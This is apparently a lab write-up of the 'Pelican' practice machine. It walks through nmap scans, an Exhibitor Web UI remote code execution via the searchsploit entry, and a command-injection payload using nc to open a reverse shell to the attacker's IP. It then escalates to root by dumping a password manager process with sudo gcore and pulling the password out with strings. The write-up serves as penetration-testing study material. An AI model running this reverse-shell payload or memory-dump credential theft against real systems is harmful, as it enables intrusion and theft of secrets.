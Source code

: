 # Pelican

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.219.98 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:56 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown
```

Ran a detailed `nmap` scan as well:

```
$ sudo nmap -p 22,139,445,631,2181,222,8080,8081 -sC -sV --min-rate 4000 192.168.219.98
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 10:57 +08
Nmap scan report for 192.168.219.98
Host is up (0.17s latency).

PORT     STATE  SERVICE     VERSION
22/tcp   open   ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
222/tcp  closed rsh-spx
445/tcp  open   netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp open   zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
8080/tcp open   http        Jetty 1.0
|_http-server-header: Jetty(1.0)
|_http-title: Error 404 Not Found
8081/tcp open   http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.219.98:8080/exhibitor/v1/ui/index.html
```

There's a ZooKeeper software, but there aren't any exploits for it. Port 8081 had an Exhibitor software being used, and there are RCE exploits for this:

```
$ searchsploit exhibitor
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Exhibitor Web UI 1.7.1 - Remote Code Execution             | java/webapps/48654.txt
----------------------------------------------------------- ---------------------------------
```

### Exhibitor RCE

The Exhibitor RCE is rather simple, and the Config tab looks rather vulnerable.&#x20;

<figure><img src="../../../.gitbook/assets/image (1803).png" alt=""><figcaption></figcaption></figure>

The `java.env` script part seems to be running `bash`. I downloaded the exploit found from `searchsploit`, and attempted their POC:

```
$(nc -e /bin/bash 192.168.45.182 4444)
```

<figure><img src="../../../.gitbook/assets/image (1343).png" alt=""><figcaption></figcaption></figure>

Afterwards, committing the changes would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (3318).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Gcore -> Root Creds

The current user has some `sudo` privileges:

```
charles@pelican:/opt/zookeeper$ sudo -l
Matching Defaults entries for charles on pelican:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on pelican:
    (ALL) NOPASSWD: /usr/bin/gcore
```

`gcore` is a program that is used to create core dumps of running processes, and since we can use `sudo` with it, we essentially can create these dumps of any processes. As such, let's enumerate what `root` is running:

```
charles@pelican:/opt/zookeeper$ ps -ef | grep root
<TRUNCATED>
root       510   459  0 22:53 ?        00:00:00 /bin/sh -c while true; do chown -R charles:charles /opt/zookeeper && chown -R charles:charles /opt/exhibitor && sleep 1; done
avahi      522   456  0 22:53 ?        00:00:00 avahi-daemon: chroot helper
root       527     1  0 22:53 ?        00:00:00 /usr/bin/password-store
<TRUNCATED>
```

There's a `password-store` binary being run, which is essentially a password manager. We can create a core dump for this process:

```
charles@pelican:/opt/zookeeper$ sudo /usr/bin/gcore 527
0x00007f31c88806f4 in __GI___nanosleep (requested_time=requested_time@entry=0x7fffe1091db0, remaining=remaining@entry=0x7fffe1091db0) at ../sysdeps/unix/sysv/linux/nanosleep.c:28
28      ../sysdeps/unix/sysv/linux/nanosleep.c: No such file or directory.
Saved corefile core.527
```

We can then use `strings` on the core dump file to find a password:

```
charles@pelican:/opt/zookeeper$ strings core.527
<TRUNCATED>
001 Password: root:
ClogKingpinInning731
x86_64
/usr/bin/password-store
<TRUNCATED>
```

Using this password, we can `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (1254).png" alt=""><figcaption></figcaption></figure>
